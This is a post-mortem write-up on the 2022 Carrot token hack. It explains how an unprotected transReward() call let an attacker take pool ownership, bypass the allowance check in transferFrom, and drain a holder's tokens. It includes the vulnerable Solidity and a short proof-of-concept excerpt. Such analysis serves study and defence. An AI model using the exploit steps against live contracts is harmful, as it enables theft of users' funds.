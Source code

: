 # Carrot


## What's Carrot?
a rewards platform where users can earn bitcoin simply by supporting the brands and creators they love. Creators of all sorts
(writers, podcasters, open-source collectives...) can publish challenges to be carried out by their audiences and offer bitcoin for their completion.

## Amount stolen
**$31,318 BUSDT**

2022-10-10

## Vulnerability
Insufficient access control


## Analysis

The Carrot token relies on '_allowances[sender][_msgSender()].sub(amount, "ERC20: transfer amount exceeds allowance")'
to prevent unapproved token transfers,

the `sub` function in the `beforetransfer` method will subtract the `amount` from the allowance. If the subtraction results
a value less than zero indicates that the transfer amount exceeds the allowance limit and will fail.

This pattern involves the Action-Check pattern, where you act, in this case transferring tokens without explicitly checking for permission. 
The actual check is deferred to a later point in the code, the `sub` function on the allowances mapping.

This final check can be avoided if the `_msgSender()` on the `_isExcludedFromFee` mapping is set to true, 
giving the `_msgSender()` the ability to move any user's tokens at its will. 

```solidity
  function transferFrom(
    address sender,
    address recipient,
    uint256 amount
  ) public virtual override returns (bool) {
    _beforeTransfer(_msgSender(),recipient,amount);
    
    if(_isExcludedFromFee[_msgSender()]){
        _transfer(sender, recipient, amount);
        return true;
    }
    _transfer(sender, recipient, amount);
    _approve(
        sender,
        _msgSender(),
        _allowances[sender][_msgSender()].sub(
            amount,
            "ERC20: transfer amount exceeds allowance"
        )
    );
    return true;
  }
```

An address can be added to the `_isExcludedFromFee` mapping under the condition that the caller of a transfer is the owner of an 
external pool contract and the counter variable is set to 0. 
This counter variable serves as a safety measure, preventing any other party from adding their address after an exploit has executed this action.


```solidity
   function _beforeTransfer( address from,address to,uint256 amount) private{
  if(from.isContract())
  if(ownership(pool).owner() == from && counter ==0){
      _isExcludedFromFee[from] = true;
      counter++;
  }          
  _beforeTokenTransfer(from, to, amount);
}

The Pool address is set via the onlyOwner initPool() function on the token.


```solidity
function initPool(address _Pool) public onlyOwner {
    require(pool == address(0));
    pool = _Pool;
}
```

In the concluding step, the ownership of the pool contract is established by invoking the `transReward()` function on the token.
By calling `CARROT_TOKEN.transReward(abi.encodeWithSelector(0xbf699b4b, address(this)));` with the selector `"0xbf699b4b"`, wich in English is the "change 
owner" function, and with the desired address specified as `"0x5575406ef6b15eec1986c412b9fbe144522c45ae"`.



# proof of concept (PoC) 
![euler Image](../images/euler/euler.png)


```solidity
        // Call vulnerable transReward() to set this contract as owner. No auth control
        CARROT_TOKEN.transReward(abi.encodeWithSelector(0xbf699b4b, address(this)));

        // Call transferFrom() to steal CARROT tokens using the same amount used in the exploit
        CARROT_TOKEN.transferFrom(
            0x00B433800970286CF08F34C96cf07f35412F1161, address(this), 310_344_736_073_087_429_864_760
        );

        // Swap all stolen Carrot to BUSDT
        _CARROTToBUSDT();
```




**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/Carrot_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)

